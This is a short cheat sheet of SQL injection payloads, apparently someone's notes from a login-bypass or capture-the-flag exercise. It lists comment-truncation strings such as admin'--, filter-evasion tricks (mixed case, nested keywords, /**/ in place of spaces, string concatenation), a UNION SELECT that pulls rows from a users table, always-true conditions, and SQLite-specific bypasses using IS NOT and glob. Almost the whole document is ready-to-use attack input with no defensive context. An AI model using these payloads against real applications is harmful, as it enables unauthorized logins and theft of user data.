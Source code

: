 admin';
admin'--
admin';--
admin';#
admin'#

if the filter for admin ; 
aDmin';
adadminmin';

bob' union select * from users limit 1; // maybe is the admin


white space = /**/

0 or 1      ==    0/**/or/**/1

bob'/**/union/**/select/**/*/**/from/**/users/**/limit/**/1;

adm'||'in' : wow

except select : wow (like union)

' || 1=1;-- - 

SELECT * FROM webfour.webfour where name = '' or ''=''

' or ''='



username: ad'||'min
password: a' IS NOT 'b :true 

false + glob('*',0) : true

false + glob "*" : true 
